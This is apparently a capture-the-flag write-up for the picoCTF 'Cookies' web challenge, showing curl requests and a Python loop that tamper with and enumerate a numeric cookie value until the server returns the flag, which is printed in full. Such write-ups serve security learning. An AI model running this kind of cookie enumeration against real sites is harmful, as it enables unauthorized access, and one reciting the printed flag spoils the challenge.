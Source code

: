 # picoCTF Cookies

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/


after checking out the site, I see that after entering a cookie name the weppapp changes your browser's cookie value based on output. I can see this using curl from the origional request of a known existing cookie, the snickerdoodle:

```bash
└─$ curl 'http://mercury.picoctf.net:17781/check' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://mercury.picoctf.net:17781/' -H 'Connection: keep-alive' -H 'Cookie: name=0' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'|grep '<strong>Title</strong>'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1779  100  1779    0     0  22361      0 --:--:-- --:--:-- --:--:-- 22518
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
                                                                                            
```

increasing the browser-cookie value by one I can change what cookie I am seeing on the site:

```bash
curl 'http://mercury.picoctf.net:17781/check' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://mercury.picoctf.net:17781/' -H 'Connection: keep-alive' -H 'Cookie: name=1' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'|grep '<p style="text-align:center; font-size:30px;"><b>'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1780  100  1780    0     0  25578      0 --:--:-- --:--:-- --:--:-- 25797
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>

```


Seeing what is going on I am able to make a burp intruder attack that changes the cookie value, then reviewing the response length, one stands out over the rest, and it also happens to be the flag:

![image](https://user-images.githubusercontent.com/83407557/148654389-12679aba-6b7b-42d1-a77a-58fe3c3895dc.png)


## Python

Still trying to get my python to work on this one, it crashes due to a redirect issue, however using grep on the output, it does actually solve this lab before crashing. Still something to work on in the future.

```python
#!/usr/bin/env python3

import requests
import re

count = 0
while (count < 100):   
    count = count + 1
    cookies = {
    'name': str(count)
    }
    headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Referer': 'http://mercury.picoctf.net:17781/',
	'Connection': 'keep-alive',
	'Upgrade-Insecure-Requests': '1',
	'Cache-Control': 'max-age=0',
    }
    res = requests.get('http://mercury.picoctf.net:17781/check', headers=headers, cookies=cookies)
    response_cookie = re.search('picoCTF{', res.text)
    print(response_cookie, res.text)
```

Then running it in bash I can grep for the flag....not perfect...

```bash
─$ python3 test.py|grep picoCTF                                                                               1 ⨯
<re.Match object; span=(1005, 1013), match='picoCTF{'> <!DOCTYPE html>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>

```
